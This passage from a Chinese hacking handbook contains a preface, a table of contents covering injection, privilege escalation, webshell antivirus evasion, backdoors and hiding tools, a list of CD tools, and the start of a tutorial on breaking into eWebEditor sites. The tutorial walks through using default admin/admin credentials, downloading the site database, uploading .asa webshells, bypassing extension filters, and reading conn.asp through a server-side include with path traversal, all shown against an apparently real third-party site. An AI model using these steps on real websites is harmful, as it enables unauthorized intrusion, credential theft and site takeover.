# 精通脚本黑软攻击技术

# 序

在这片繁花似锦的百草园中，馨香遍野，芬芳满地，它们每一朵都是技术园林中璀璨的奇葩。缤纷落英之中，每一支华丽的技术都有着她独特的一面，有的锋在利刃，有的钝而坚顽，有的柔中带钢，有的却是见血封喉。所以，技术之美总带着殇。半溪流水绿，抑或千树落花红，都没人会告诉你谁最美，因为美在你自己心中。

当纷繁的美好映入眼帘时，无论是怎样的傲慢和固执，我们终须在岔路上做下抉择，因为技术的追求从未让贪婪的意识取得成功。只有沉淀后的目标，才会引导我们的追求汲取、积累、演练……让利刃更锋，让钝剑更坚，让技术的成长找到真挚的载体。于是，抛开肤浅的感性认知后，理性的学习更加清醒和明确。

慢慢地，我们发现遑论生活，就连任意选定的技术追求都会有无限的转折和坎坷。而作为初涉园中的习者，独自克服每一次曲折都宛如翻越布满荆棘的大山。此刻大家都盼着，有一册承上启下的书卷，在思维的枢纽处点缀宝贵的标签，为尚在混沌中茫然摸索的晚生们拨开阴霾，豁然开朗；又令在课堂中纸笔之争的学院派，走向气势恢宏的兵戎之战，在真正的拼杀中发现问题，分析它，进而解决。它不应再是墨守陈规的传统教程，而是引导大家翻越思想壁垒的精华手册，其中又具承载关联，技术主线贯穿丘陵之间。

如是，这样的希冀燃亮了这样的书，它用冷兵器碰撞所产生的火花做点燃权威的引子，带着期待和孤独与你一同在这里绰约地盛开。

路漫漫其修远兮，从矩阵到锡安，让我们醉眠共被，携手同行，一起追寻生命的真实吧。

此致  
共勉

冰血封情 [E.S.T]

己丑年八月初四之平旦题于蒲叶暖风亭

# 目录

# 第一章 重装上阵

### 一、Ewebeditor 的另类突破……8
- 本节要点
- ewebeditor 常规漏洞描述
- 源代码漏洞拓展利用分析
- 新思路漏洞实践操作演示

### 二、UPDATE 截断注入修改数据……11
- 本节要点
- 注入各句式对比分析
- update 语句构建理论要点
- 结合实际分析 update 注入语句构成

### 三、MYSQL 数据库导出任意文件渗透内网……14
- 本节要点
- mssql 在高权限下导出文件与 mysql 导出文件的区别
- 向服务器写入文件的另一种方法——FTP 上传
- 利用 mysql 写入程序至服务器的理论
- 详细操作流程

### 四、配置全文索引查询……16
- 本节要点
- 全文索引的定义及功能
- sp_fulltext 系列存储过程运用
- 配置全文索引方法

### 五、获得并破解 mysql 系统密码……20
- 本节要点
- 其它数据库（access 数据库，mssql 数据库）hash 破解简介
- mysql 密码存储及加密机制
- mysql 密码加密 hash 获取方法

### 六、解决部分 ASPX 网站工具无法注入的问题……23
- 本节要点
- aspx 站点手注成功但工具无法注入成因分析
- 通过抓取数据包对比进行查找研究
- 修改注入参数实现工具自动注入

### 七、IIS 的权限配置不当引发的安全事故……32
- 本节要点
- IIS 权限与 NTFS 权限区别
- IIS 权限概述
- IIS 权限下常见安全策略
- IIS 权限不当常见漏洞解析
- 不同系统权限规则区别展示

### 八、SQL 注入中的暗器——X_FORWARDED_FOR 注入……38
- 本节要点
- X_FORWARDED_FOR 注入与普通注入技术的联系
- 可能存在 X_FORWARDED_FOR 注入漏洞的代码分析
- X_FORWARDED_FOR 注入条件分析
- 实战工具演练

### 九、Windows 下的 MYSQL 网站利用 UDF.dll 提升权限……46
- 本节要点
- 提权漏洞描述
- 实际环境操作
- 基本步骤总结

### 十、WEBSHELL 自主免杀……50
- 本节要点
- webshell 的工具免杀
- webshell 免杀总体思路分析
- 利用工具自动分析特征码

### 十一、无 PHP 权限的 UDF 提权……55
- 本节要点
- 建立函数操作
- 分析适用环境及原理
- mysql 数据库反向连接及后门函数操作

### 十二、自建存储过程拿下 MSSQL 服务器……59
- 本节要点
- mssql 下常见三种命令执行模式回顾
- sp_addlogin 扩展存储过程利用
- sp_addextendedproc 存储过程利用

### 十三、无 net.exe 和 net1.exe 添加管理员账号……64
- 本节要点
- net.exe 和 net1.exe 利用价值分析
- windows 账号 sam 机制
- mt 工具替换口令
- mt 其它功能简述

### 十四、命令行连接内网渗透……67
- 小型网站常见网络结构图解
- 网络结构简单判断与分析
- osql 使用详细介绍

### 十五、CMD 保护的突破……72
- cmd.exe 常见防御措施
- cmd 加密防御原理介绍
- 突破 cmd 加密

### 十六、CONTAINS 解决注入疑难问题……75
- 常规注入对于防过滤的局限性
- CONTAINS 注入利用方法
- CONTAINS 注入必要条件

### 十七、用注点读 MDB 文件（或 XLS 等）进行突破……76
- 适用环境及条件分析
- OPENDATASOURCE 函数的介绍
- 操作语句介绍
- txt 文件读取获取重要数据方法

### 十八、利用暴错获得表名前缀……81
- 在正常情况下的利用模式
- 修改表前缀的防注入方法
- 先解决“暴错”后注入的思维方式

### 十九、从漏洞发现到利用之旅……83
- 从蛛丝马迹中分析目标
- 搜索漏洞利用方式
- 分析并利用漏洞代码

### 二十、MSSQL 下的 union 查询……87
- mssql 下联合查询的难度
- 可使用 mssql 联合查询的环境
- mssql 联合查询的字段类型分析
- 表名、字段、数据获取操作

### 二十一、利用 XSS 获得管理后台地址……92
- xss 基本常识
- xss 与其它攻击手段的比较优势
- xss 与 java 脚本结合利用思路
- 社会工程引导管理员中招思路
- 获得后台操作实战

### 二十二、利用 SQL 注入进行数据的外部引用……95
- 联合查询的替代特性
- 不依赖数据库原数据篡改网站配置
- 实际操作演练注入语句引入外部数据

### 二十三、双重编码绕过入侵检测……98
- 各种编码在突破防御中的作用实例
- 双重编码适用条件及操作

# 第二章 神兵之力

### 二十四、连接并操纵 MYSQL 数据库……102
- mysql 数据库操作工具介绍
- mysqladmin、mysqldump 工具使用方法
- 图像界面 mysql 操作工具介绍

### 二十五、端口复用通道建立……106
- 端口复用与端口转发、反向连接等方法的区别与优势
- vpn 与端口复用的各自适用环境
- 端口复用与传统理论的冲突与关联
- 端口复用实践及要点

### 二十六、入侵必备——最易用的 VPN……108
- vpn 对于自身安全的重要性
- vpn 代理工具的使用

### 二十七、TamperIE 工具的实战……110
- 老式本地提交方法的局限与繁琐
- TamperIE 工具安装
- TamperIE 工具使用介绍

### 二十八、Winlogonhack 的利用新路……114
- Winlogonhack 功能介绍
- Winlogonhack 常规利用方法
- 备份 bat 运行 Winlogonhack

### 二十九、CURL 使用攻略……118
- curl 与其它同类工具的比较优势及功能
- curl 各项功能在 hack 中的作用

### 三十、构建嗅探的基石之 winpcap……120
- 嗅探所需软件环境
- winpcap 程序剖析
- 手动命令行下安装黑客程序

### 三十一、来自国外的 SQL 注入工具 sqlmap……122
- 几种国外注入工具介绍
- sqlmap 特点及功能简介
- sqlmap 调试
- sqlmap 各功能参数详解

### 三十二、修改时间“隐藏”工具……128
- 后门放置的隐蔽原则
- 日期修改操作
- 嗅探安全与日期修改

### 三十三、PING DOOR 的原理和使用……129
- icmp 数据包和 TCP 包的区别
- 常见防火墙屏蔽策略
- “ping door”后门工具使用

### 三十四、自己动手破解密码 hash……133
- 常规在线破解密码
- 彩虹表工具套装功能简介
- 彩虹表 hash 生成规则及破解原理
- 密码加密类型
- 实战破解加密 hash

### 三十五、黑客方便工具 TouchNet 浏览器应用指南……138
- 安全检测常用命令及功能
- TouchNet 各功能在入侵中的应用
- TouchNet 特色功能定时自动切换

# 第三章 全副武装

### 三十六、认识正则表达式……143
- 安全防御过滤代码分析
- 正则表达式语法列表
- 解析正则表达式
- 正则表达式测试工具

### 三十七、常见网络结构介绍……148
- 网络主要设备交换机及路由器功能与特点介绍
- 直连模式图解
- 交换机直连接模式图解
- 路由直连模式图解
- 单臂静态路由多子网图解
- 动态路由多子网图解
- 各网络结构简要突破思路

### 三十八、各种字符编码详解及在入侵中的应用……152
- 字符编码与网络安全的早期关联
- 编码的概念和意义
- 常见编码类型介绍
- 外国字符编码转换

### 三十九、Oracle 安装……157
- oracle 数据库基本常识
- oracle 数据库与其它数据库的区别
- oracle 数据库具体安装步骤
- oracle 数据库操作工具演示

### 四十、走进 MSSQL 数据库内部……163
- mssql 查询分析器简述
- 重要目录及相关信息介绍
- mssql 各系统库简介及与安全性的联系
- 常被黑客利用的存储过程介绍
- 存放重要信息的系统表简介

### 四十一、Linux 的安装……167
- Linux 的特点及对于网络安全知识学习的必要性
- Linux 版本选择与评估
- Linux 安装盘的创建与刻录
- Linux 具体安装步骤
- 认识 Linux 硬盘格式与划分

### 四十二、Linux 常见操作详解……175
- 本节要点
- 最常用文件操作类命令
- 创建账号命令

### 四十三、在 Linux 下安装程序……179
- 本节要点
- Linux 图文界面安装程序
- Linux 命令行界面安装程序
- 其它常见 Linux 程序安装方法

### 四十四、走近思科路由器……183
- 本节要点
- 思科路由器功能及种类
- 命令行下连接并操作思科路由器
- 思科路由器权限管理操作
- 思科路由器网络配置命令

### 四十五、ASP 脚本精解入门……190
- 本节要点
- asp 脚本的结构及语法特点
- 与安全相关对象、属性的认识与介绍

### 四十六、VC6.0 安装与简介……198
- 本节要点
- vc6.0 应用及功能简介
- vc6.0 安装图解

### 四十七、从源代码到黑客利器……201
- 本节要点
- VC 源代码常见组成结构
- VC 编译源代码为可执行程序

### 四十八、VB6.0 企业版环境搭建……206
- 本节要点
- VB6.0 应用及功能简介
- VB6.0 安装图解

### 四十九、使用 vb 编译把黑客工具编译为程序……209
- 本节要点
- VB 源代码常见组成结构
- 使用 VB6.0 编译源代码为可执行程序

### 五十、Delphi 编译环境架设……212
- 本节要点
- Delphi 应用及功能简介
- Delphi 安装图解

### 五十一、用 delphi 编译程序……215
- 本节要点
- delphi 源代码常见组成结构
- delphi 编译源代码为可执行程序


# 作者简介

网名：PPB  
姓名：彭超

国内资深职业黑客，曾在黑客在线、黑客防线等黑客技术平台从事网络安全技术咨询工作，实践进行过大量友情安全检测及渗透测试活动。在从事技术咨询及渗透测试中积累了丰富的经验和敏锐的思路。

本书便是作者这些心得的总结，将其中的一些常见技术和思路以及学习网络安全技术中需要掌握的必备技术进行完整展示，是希望学习网络安全技术朋友们的随身宝典。

# 目录

> 注意：可能部分内容与光盘有所差距，请以光盘中的内容为主。

[注意]本光盘部分软件均由 WINRAR 工具压缩，使用之前请先解压。我们建议小菜们先安装虚拟机软件，然后再在虚拟机中进行一些软件的操作，以防自己的电脑系统因一些误操作或者不明原因而造成破坏。

## 重装上阵
- WSockExpert 抓包
- IIS 写权限扫描工具
- X-Forwarded-For 注入工具
- PHP 提权专用网马
- webshell 免杀器
- 注入中转
- ……

## 神兵之力
- MYSQL 连接器 MySQLFront
- 端口复用——只能用于 WIN2000 和 XP
- 自动搜索 VPN
- 截取提交 TamperIESetup
- winlogonhack
- curl
- 设置时间 setime
- icmpdoor
- rainbowcrack-1.2-win
- TouchNet 浏览器
- ……

## 全副武装
- 正则表达式相关工具
- SQL 注入字符转换器
- 转换工具

## 其他软件
- VMware Workstation 6  
  VMWare 是一个“虚拟 PC”软件，可以实现在一台机器上同时运行二个或更多 Windows、DOS、LINUX 系统。与“多启动”系统相比，VMWare 是真正“同时”运行，多个操作系统在主系统的平台上，就像标准 Windows 应用程序那样切换。而且，每个操作系统都可以进行虚拟的分区、配置而不影响真实硬盘的数据，甚至可以通过网卡将几台虚拟机连接为一个局域网。

- MYSQL 数据库  
  MySQL 是最流行的开放源码 SQL 数据库管理系统，它是由 MySQL AB 公司开发、发布并支持的。MySQL AB 是由多名 MySQL 开发人创办的一家商业公司，也是一家第二代开放源码公司，结合了开放源码价值取向、方法和成功的商业模型。在 MySQL 的网站（http://www.mysql.com/）上，给出了关于 MySQL 的最新信息。

- Microsoft .NET Framework 3.5  
  [注意：安装到后期需连接网络下载最新组件]  
  .NET Framework 3.5 包含若干技术领域中的大量新功能，它们以新程序集的形式添加，以避免重大更改。这些新功能包括：与语言集成查询（LINQ）和数据感知紧密集成。借助这个新功能，您可以使用相同的语法，在任何支持 LINQ 的语言中编写相关代码，以筛选和枚举多种类型的 SQL 数据、集合、XML 和数据集，以及创建它们的投影。  
  利用 ASP.NET AJAX 可以创建更有效、更具交互性、高度个性化的 Web 体验，这些体验在所有最流行的浏览器上都能实现。用于生成 WCF 服务的全新 Web 协议支持，包括 AJAX、JSON、REST、POX、RSS、ATOM 和若干新的 WS-* 标准。


## 第一章

## 重装上阵

www.nochack.cn

## 一、Ewebeditor 的另类突破

Ewebeditor 漏洞由来已久，它本身是一个网站在线编辑系统，能帮助管理员轻松地实现更新网站内容时的图片上传、新闻格式编辑等功能。很多网站源码中都整合了这个在线编辑系统。但是，绝大部分的源码程序员对于这个第三方工具并没有做认真的安全审核，因而为自己的整站系统引进了不安全因素，使得系统存在严重漏洞。黑客一旦进入 Ewebeditor 的后台，就能在“样式管理”的“上传类型”中添加一个后缀名为“asa”的上传类型，如图 1。



这样就可以在该样式的上传页面中直接上传一个 asa 后缀的脚本木马，从而获得网站的 webshell。这种操作十分简单，获得的权限也很大，对网络安全的危害是相当大的，许多新手也能应用自如。

Ewebeditor 漏洞的存在需要几个基本条件：

- 1、需要是完整版的 Ewebeditor 程序，其另外一种精简版是没有这个上传漏洞的。何为完整版？就是在整个程序中包含有数据库目录、管理员目录等文件，因为只有完整版的程序才拥有进后台、修改样式等操作的权限。精简版的设置是无法用后台修改的，因此不存在该漏洞。

以下是精简版与完整版的目录结构截图对比。图 2 中不包含 db、admin 等目录及 admin_login.asp 后台登录文件的就是简易版；图 3 中拥有 db、admin 等目录及 admin_login.asp 后台登录文件的就是完整版。可以看到，完整版明显比精简版的文件及目录多一些。



- 2、需要能进入后台，eWebEditor 的默认管理员账号和密码都是 admin，一般不会改。如果管理员密码被修改，可以尝试访问网站地址“eWebEditor/db/ewebeditor.mdb”下载数据库，然后在 ewebeditor_system 表中找到 sys_UserName（管理员账号字段）和 sys_UserPass（管理员密码字段）的 MD5 值尝试进行破解。如图4，是保存管理员账号的表名。  



图3

- 3、网站没有修改源码或打补丁。例如很典型的修改 Upload.asp 文件，在  
`sAllowExt = Replace(UCase(sAllowExt), "ASP", "")`  
后加上对其它后缀名的过滤，如  
`sAllowExt = Replace(Replace(Replace(Replace(Replace(UCase(sAllowExt), "ASP", ""), "CER", ""), "ASA", ""), "CDX", ""), "HTR", "")`。  
但是这种过滤可以用添加“asaspp”上传类型的方法绕过，这些知识在一般的文章里都有讲过。  

另有一些打过补丁的系统，无论你上传 asa 还是 asaspp 后缀都是无法成功得到 webshell 的，遇到这种情况还是有办法，这里着重讲讲这种在代码中完全过滤掉漏洞的突破方法。



图4

例如图5这种很常见的新闻整站，每条新闻都是用脚本生成的 html 静态文件，没有多余的提交参数页面。

几经查找，在该网站发现一条新闻图片，在图片上按右键，查看图片地址，发现处于 ewebeditor 目录下，如图6。

于是试着输入 ewebeditor 的管理后台地址“ewebeditor/admin/admin_login.asp”，用默认账号密码 admin/admin 成功登录了后台，如图7。



图5

之后的操作大家应该都比较熟练了，点开“样式管理”－“设置”，在“图片类型”里加上“asa”然后上传，结果出现如图8的提示。

添加上传类型“asaspp”，上传仍然失败，看来这里管理员已经补了这个漏洞，asp、asa 后缀的文件都无法上传了。



图6



难道路就这样被堵死了吗？当然不是！这里我们可以试着上传一种新的文件后缀，就是“shtml”。这种文件虽然不像 asp、asa 能直接获得一个脚本的 webshell，但是它可以看得到网站程序的源代码，如果能用它查看到“conn.asp”文件的源码，就能知道数据库地址或者连接字串，这样或许能有新的突破。

做法如下：

先用记事本新建一个文件，写上一句代码：`<!--#include file="conn.asp"-->`

其中 conn.asp 是推测的 conn.asp 的相对路径，需要用 ../ 来跳转出去。在这个网站中，上传文件是在 admin/news/ewebeditor/uploadfile，假设 conn.asp 文件在网站根目录，需要往上跳四层，即四个 ../，这里就写 ../../../../conn.asp。这个跳转的层数和 conn.asp 的所在目录，要根据网站的具体情况进行修改。

